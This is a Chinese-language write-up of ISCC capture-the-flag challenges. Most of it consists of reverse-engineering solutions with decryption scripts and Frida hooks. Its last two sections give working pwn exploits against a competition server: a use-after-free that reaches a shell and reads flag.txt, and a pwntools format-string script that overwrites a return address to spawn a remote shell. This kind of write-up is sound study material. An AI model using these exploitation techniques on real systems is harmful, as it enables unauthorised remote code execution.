







## 迷失之门

MLM直接秒了：

```C
void check(char *s) {
    char upper[] = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    char lower[] = "abcdefghijklmnopqrstuvwxyz";
    char special[] = "0123456789+/-=!#&*()?;:*^%";
    char key[] = "DABBZXQESVFRWNGTHYJUMKIOLPC";
    int len = strlen(s);
    int i;
    for (i = 0; i < len; i++) {
        if (s[i] >= 127 || s[i] <= 32) continue;
        int offset = s[i] - key[i];
        if (offset > 0) {
            if (offset < 26) {
                s[i] = upper[offset];
            } else if (offset < 52) {
                s[i] = lower[offset - 26];
            } else {
                s[i] = special[offset - 52];
            }
        } else {
            std::cout << "flag is wrong";
        }
    }
    check_2(s);
}
static int check_2(char* flag) {
    if (flag[0] == 'F' && flag[1] == 'S' && flag[2] == 'B' && flag[3] == 'B' &&
        flag[4] == 'h' && flag[5] == 'K' && flag[6] == 'B' && flag[7] == 'E' &&
        flag[8] == 'J' && flag[9] == 'R' && flag[10] == '4' && flag[11] == 'L' &&
        flag[12] == 'B' && flag[13] == 'J' && flag[14] == 'y' && flag[15] == 'R' &&
        flag[16] == 'c' && flag[17] == 'G' && flag[18] == 'h' && flag[19] == 'J' &&
        flag[20] == 'I' && flag[21] == 'h' && flag[22] == 'L' && flag[23] == 'o' &&
        flag[24] == 'y' && flag[25] == 'c' && flag[26] == '6') {
        std::cout << "yes, this is a flag\n";
        return getchar();
    }
}
```

脚本：

```python
upper = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
lower = "abcdefghijklmnopqrstuvwxyz"
special = "0123456789+/-=!#&*()?;:*^%"
key = "DABBZXQESVFRWNGTHYJUMKIOLPC"
s = "FSBBhKBEJR4LBJyRcGhJIhLoyc6"
flag = []
for i in range(27):
    if s[i] in upper:
        flag.append(upper.index(s[i]) + ord(key[i]))
    elif s[i] in lower:
        flag.append(lower.index(s[i]) + ord(key[i]) + 26)
    elif s[i] in special:
        flag.append(special.index(s[i]) + ord(key[i]) + 52)
    else:
        print("flag is wrong")
        break
print("".join([chr(i) for i in flag]))
```

## CrypticConundrum

UPX直接脱壳。

一堆for循环运算，mix函数是没啥用处的好像。

```python
import struct
result = [0x9998153720F463BB, 0x71BEF2219D680A32, 0xF03247E9D23C2709]
t = 0x34C0F032
result = list(struct.pack("<QQQ", *result))
t = list(struct.pack("<I", t))
result = result[:22] + t
print([hex(x) for x in result])
key = [ord(i) for i in 'ISCC']
for i in range(len(result)):
    result[i] -= 10
    result[i] &= 0xff
for i in range(len(result) - 1):
    result[i] += result[i + 1]
    result[i] &= 0xff
for i in range(len(result) - 1):
    result[i] ^= key[2]
for i in range(0, len(result), 2):
    result[i] ^= key[i % 4]
for i in range(len(result) // 2):
    result[i], result[len(result) - i - 1] = result[len(result) - i - 1], result[i]
for i in range(len(result) // 2):
    result[i], result[len(result) - i - 1] = result[len(result) - i - 1], result[i]
for i in range(len(result)):
    result[i] += key[i % 4]
    result[i] &= 0xff

# key = [ord(i)%64 for i in 'So--this-is-the-right-flag']
# for i in range(len(result)):
#     result[i] -= 64
# for i in range(len(result)-1, -1, -1):
#     result[i] -= result[(i + 1) % len(result)]
# for i in range(len(result)):
#     result[i] += key[i % len(key)]
# for i in range(len(result) // 2):
#     result[i], result[len(result) - i - 1] = result[len(result) - i - 1], result[i]
# for i in range(len(result)):
#     if key[i % len(key)] % 2:
#         result[i] += 2
#     else:
#         result[i] += 1
# for i in range(len(result) // 2):
#     result[i], result[len(result) - i - 1] = result[len(result) - i - 1], result[i]
# for i in range(len(result)):
#     result[i] -= key[i % len(key)]
# for i in range(len(result)-1, -1, -1):
#     result[i] += result[(i + 1) % len(result)]
# for i in range(len(result)):
#     result[i] += 64
print(''.join([chr(x) for x in result]))
```

## 火眼金睛

这里的混淆直接nop：



```python
result = [0x01, 0x06, 0xFB, 0xC0, 0x38, 0x02, 0xED, 0x48, 0xCC, 0x3D, 0x3D, 0xF3, 0x37, 0xDF, 0xF8, 0x57, 0x2C, 0xF3, 0x0E, 0x3F, 0xFB, 0xC9, 0x2B, 0x40]
key1 = [0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26]
key2 = [0x59, 0x6F, 0x75, 0x36, 0x36, 0x36, 0x21]

for i in range(24):
    result[i] ^= key1[i % len(key1)]
data0 = result[:8]
data1 = result[8:16]
data2 = result[16:]

for i in range(6, -1, -1):
    data0[i] += data0[i + 1]
    data0[i] &= 0xff
for i in range(0, 8, 2):
    data0[i], data0[i+1] = data0[i+1], data0[i]

for i in range(6, -1, -1):
    data1[i] += data1[i + 1]
    data1[i] &= 0xff
for i in range(0, 8, 2):
    data1[i], data1[i+1] = data1[i+1], data1[i]

for i in range(6, -1, -1):
    data2[i] += data2[i + 1]
    data2[i] &= 0xff
for i in range(0, 8, 2):
    data2[i], data2[i+1] = data2[i+1], data2[i]
buf = []
for i in range(24):
    if i % 3 == 0:
        buf.append(data0[i // 3])
    elif i % 3 == 1:
        buf.append(data1[i // 3])
    else:
        buf.append(data2[i // 3])
print(bytes(buf))
# YmFzZTY0L2NvZGUvY2hvb3Nl
```

## Badcode

推出算法

```python
def encrypt(key, ptext):
    round = 52 // 6 + 6
    delta = 0x61C88647
    num = 0
    for _ in range(round):
        num -= delta
        num &= 0xFFFFFFFF
        k_index = (num >> 2) & 3
        for j in range(6):
            t4 = ptext[(j - 1) % 6]
            t3 = ((t4 ^ key[(k_index ^ j) & 3]) + (ptext[(j + 1) % 6] ^ num)) ^ (((t4 * 16) ^ (ptext[(j + 1) % 6] >> 3)) + ((t4 >> 5) ^ (ptext[(j + 1) % 6] * 4)))
            t3 &= 0xFFFFFFFF
            ptext[j] += t3
            ptext[j] &= 0xFFFFFFFF

    print([hex(i) for i in ptext])
    ptext = b''.join([ptext[i].to_bytes(4, 'little') for i in range(6)])
    ptext = list(ptext)
    for i in range(len(ptext)):
        print("%02x" % ptext[i], end=' ')
    return ptext
```

脚本：

```python
import struct
key = [0x12345678, 0x9ABCDEF0, 0xFEDCBA98, 0x76543210]
cipher = [0x27A668E0,0x1B67AAD5,0x4D57A892,0x8D63A672,0xACF1D56E,0xC73A481C]

def decrypt(key, cipher):
    round = 52 // 6 + 6
    delta = 0x61C88647
    num = 0 - delta * round
    num -= delta
    num = num & 0xFFFFFFFF
    for i in range(round):
        num += delta
        num &= 0xFFFFFFFF
        k_index = (num >> 2) & 3
        for j in range(5, -1, -1):
            t4 = cipher[(j - 1) % 6]
            t3 = ((t4 ^ key[(k_index ^ j) & 3]) + (cipher[(j + 1) % 6] ^ num)) ^ (((t4 * 16) ^ (cipher[(j + 1) % 6] >> 3)) + ((t4 >> 5) ^ (cipher[(j + 1) % 6] * 4)))
            t3 &= 0xFFFFFFFF
            # print(f"cipher[{j}] = {hex(cipher[j])} - {hex(t3)} = {hex((cipher[j] - t3) & 0xFFFFFFFF)}")
            cipher[j] -= t3
            cipher[j] &= 0xFFFFFFFF
    print([hex(i) for i in cipher])
    cipher = struct.pack('<6I', *cipher)
    cipher = list(cipher)
    print(bytes(cipher))
    for i in range(len(cipher)):
        print("%02x" % cipher[i], end='')
        print(chr(cipher[i]), end=' ')
    print(len(cipher))
    return cipher

cipher = decrypt(key, cipher)
key2 = "674094872038771148666737"
key2 = [ord(i) for i in key2]
for i in range(len(cipher)):
    cipher[i] ^= (key2[i] - 48)
    cipher[i] &= 0xFF
for i in range(len(cipher)):
    if i % 2 == 0:
        cipher[i] += 3
        cipher[i] &= 0xFF
    else:
        cipher[i] -= 2
        cipher[i] &= 0xFF
print(bytes(cipher))
```

## DLLCode

把输入分成两段，一个区encode函数，一个去重排列。

encode被MLM秒了：



脚本：

```Python
def rearrange(data):
    t = [2,0,3,1,6,4,7,5,10,8,11,9]
    return [data[t[i]] for i in range(12)]

def decode(data):
    key = [ord(i) for i in "ISCC"]
    for i in range(len(data)):
        data[i] = data[i] ^ key[i % 4]
    return data


result = [
    0x00000000, 0x00000010, 0x00000038, 0x00000072, 0x0000000A, 0x00000005, 
    0x00000074, 0x0000002B, 0x0000001B, 0x00000019, 0x00000014, 0x00000003, 
    0x00000043, 0x0000006D, 0x00000053, 0x00000059, 0x00000046, 0x00000054, 
    0x00000040, 0x00000067, 0x00000074, 0x0000007D, 0x00000050, 0x00000040
]

flag1 = result[:12]
flag2 = result[12:]
flag1 = decode(flag1)
print(flag2, bytes(flag2))
flag2 = rearrange(flag2)
print(flag2, bytes(flag2))
print(bytes(flag1))
print(bytes(flag2))
flag = []
for i in range(12):
    flag.append(flag1[i])
    flag.append(flag2[i])
print(bytes(flag))
```

## Puzzle Game

输入分为两部分

一部分为8位数字，且为质数，首位为4（`Integer.parseInt`允许前面有0，且自动忽略），并且该数字+11不为质数且首位不为4。

一部分来自so，直接copy代码执行就好：`gwC9nOCNUhsHqZm`。

爆破出数字`04999999`：

```python
from sympy import *
import hashlib
str2 = "gwC9nOCNUhsHqZm"

for i in range(1, 8):
    print(i)
    num = 5 * (10 ** i) - 11
    while num < 5 * (10 ** i):
        if isprime(num):
            temp = num + 11 
            if temp // (10 ** i) != 4:
                str1 = str(num)
                str1 = "0" * (7 - i) + str1
                flag = str1 + str2
                hash_object = hashlib.sha256(flag.encode())
                hash_value = hash_object.hexdigest()
                print(str1, hash_value)
                if hash_value == "437414687cecdd3526281d4bc6492f3931574036943597fddd40adfbe07a9afa":
                    print(flag)
        num = nextprime(num)
```

然后看xml里有个FINALFLAG字样：



查看Recevier：



直接frida运行：

```js
Java.perform(function() {
    var Receiver = Java.use('com.example.whathappened.Receiver');
    Receiver.encrypt.implementation = function(str, str2) {
        var result = this.encrypt(str, str2);
        console.log('Encrypt result: ', result);
        return result;
    };
    console.log('hooked');
    var result = Receiver.encrypt("04999999", "gwC9nOCNUhsHqZm");
    result = Receiver.encrypt2(result);
    console.log('Encrypt2 result: ', result.substring(0, 32));
});
```



## 上春山

直接在so找getflag函数，得到一下逻辑：

```C
jstring __fastcall Java_com_example_timer_MainActivity_getflag(JNIEnv *a1, __int64 a2, void *a3)
{
    const char *v3; // r15
    char *v4; // r14
    char v5; // r12
    v3 = (*a1)->GetStringUTFChars(a1, a3, 0LL);
    if ( !strcmp(v3, "999") )
    {
        v4 = (char *)operator new(1uLL);
        v5 = __strlen_chk(v3, -1LL);
        *v4 = v5 + __strlen_chk("dtJFkgiuTWcFBdgeGh", 19LL) + 5;
        __strcat_chk(v4, "flag:", 1LL);
        __strcat_chk(v4, v3, 1LL);
        __strcat_chk(v4, "dtJFkgiuTWcFBdgeGh", 1LL);
    }
    else
    {
        v4 = "keep going !";
    }
    return (*a1)->NewStringUTF(a1, v4);
}
```

`ISCC{999dtJFkgiuTWcFBdgeGh}`

## EzArd


hook掉AlertDialog.Builder的setCancelable为true，即可看到后面的字符串：`3SRNH1pdcta4283rFzAHxvZOLjIizbJ64UFx`。


`getflag_step1`为左移字母，应该为13位：

```java
public String ManBa() {
    return "shift=13";
}
public static String getflag_step1(String str, int i) {
    StringBuilder sb = new StringBuilder();
    for (int i2 = 0; i2 < str.length(); i2++) {
        char charAt = str.charAt(i2);
        if (Character.isLetter(charAt)) {
            char c = (char) (charAt - i);
            if (Character.isUpperCase(charAt) && c < 'A') {
                c = (char) (c + 26);
            } else if (Character.isLowerCase(charAt) && c < 'a') {
                c = (char) (c + 26);
            }
            sb.append(c);
        } else {
            sb.append(charAt);
        }
    }
    return sb.toString();
}
```

直接frida调用`getflag_step1`，`getflag_step2`。



## chaos

```C
__int64 __fastcall sub_400C8A(const char *a1)
{
    int v2; // [rsp+Ch] [rbp-14h] BYREF
    void *ptr; // [rsp+10h] [rbp-10h]
    void *v4; // [rsp+18h] [rbp-8h]

    ptr = malloc(0x68uLL);
    free(ptr);
    v2 = 0;
    puts("Please Input Chunk size :");
    __isoc99_scanf("%d", &v2);
    getchar();
    v4 = malloc(v2);
    puts("Please Input Content : ");
    gets(v4);
    if ( !strncmp((const char *)ptr, "Flag", 4uLL) )
        system("/bin/sh");
    return 0LL;
}
```

free完没有置零。

```shell
PS C:\Users\hahbiubiubiu> nc 182.92.237.102 10010
1.Add Chaos!
2.Del Chaos!
3.Edit Chaos!
4.Print Chaos!
5.Chaos!
6.Exit!
Please Choice:
5
Please Input Chunk size :
104
Please Input Content :
Flag
ls
bin
chaos
dev
flag.txt
lib
lib32
lib64
cat flag*
ISCC{g6teGBRW6JB2z1dVbT5GUBNV2sX5VBz8Cs26}
```

## easyshell

```C
printf(">>");
gets(s1);
if ( strncmp(s1, "flagis", 6uLL) )
    break;
printf(&s1[7]);
puts(" is not flag");
```

fmt。

有后门直接更改返回地址后两个字节`D291`



```python
from pwn import *

context.log_level = 'debug'
# sh = process('./attachment-13')
sh = remote('182.92.237.102', 10011)
elf = ELF('./attachment-13')

def send_payload(payload):
    sh.recvuntil(b'>>')
    sh.sendline(b'flagis ' + payload)

puts_got = elf.got['puts']
puts_got = 0x55c91901cf90
print(f"puts_got: {hex(puts_got)}")

# 第16个参数存储rbp
send_payload(b'%16$p')
stack_ebp_addr = sh.recvuntil(b' is not flag')
stack_ebp_addr = int(stack_ebp_addr[:-12], 16)
# 由rbp计算返回地址在栈中的位置
stack_return_addr = stack_ebp_addr - 0x78
print(f"stack_ebp_addr: {hex(stack_return_addr)}")
# 第17个参数存储返回地址
send_payload(b'%17$p')
return_addr = sh.recvuntil(b' is not flag')
return_addr = int(return_addr[:-12], 16)
print(f"return_addr: {hex(return_addr)}")
# 除了后12位，backdoor与返回地址是相同的
word_return_addr = (return_addr & 0xf000) | 0x291
# 利用hn写数据
# 第11个参数恰好存储 p64(stack_return_addr)
payload = f'%{word_return_addr}d%11$hn'.encode()
payload += (1 + 8 - (len(payload) % 8)) * b'-'
payload += p64(stack_return_addr)
send_payload(payload)
# %649d%11$hn------11111111
# %62089d%11$hn----11111111
sh.interactive()
# ISCC{JGtgHwHFawGRuZcj0Lys5YgOGeRc3hZVxpx9}
```

